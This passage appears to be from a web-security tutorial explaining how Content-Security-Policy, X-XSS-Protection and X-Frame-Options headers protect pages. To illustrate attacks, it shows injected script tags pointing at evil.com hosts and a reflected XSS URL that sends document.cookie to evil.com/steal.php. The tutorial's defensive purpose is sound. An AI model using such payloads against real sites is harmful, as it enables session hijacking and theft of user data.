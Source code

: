 * By default, only load resources from the same origin ('self')
* Scripts can be loaded from the same origin and from trusted-scripts.com
* Images can be loaded from anywhere (*)

#### How it works:

Imagine your web page includes:

```html
<script src="https://evil-scripts.com/hack.js"></script>
<img src="https://example.com/image.jpg">
```

With the CSP above, the browser would:

* Block the script (not from 'self' or trusted-scripts.com)
* Allow the image (img-src allows any source)

This effectively prevents attackers from injecting malicious scripts through XSS vulnerabilities. If an attacker somehow manages to inject `<script src="evil.com/steal-data.js"></script>` into your page, the browser would refuse to execute it.

### X-XSS-Protection

This header enables built-in browser protections against reflected cross-site scripting attacks.

#### Example:

```
X-XSS-Protection: 1; mode=block
```

Breaking it down:

* `1` enables XSS filtering
* `mode=block` stops the page from rendering entirely if an attack is detected

#### How it works:

If a user clicks a malicious link like:

```
https://yoursite.com/search?q=<script>document.location='evil.com/steal.php?cookie='+document.cookie</script>
```

Without protection, this script might execute if the search term is reflected back in the page. With X-XSS-Protection, the browser detects the script in both the URL and the response, preventing execution.

### X-Frame-Options

Controls whether a page can be displayed in frames, iframes, or objects, preventing clickjacking attacks.

#### Example:

```
X-Frame-Options: DENY
```

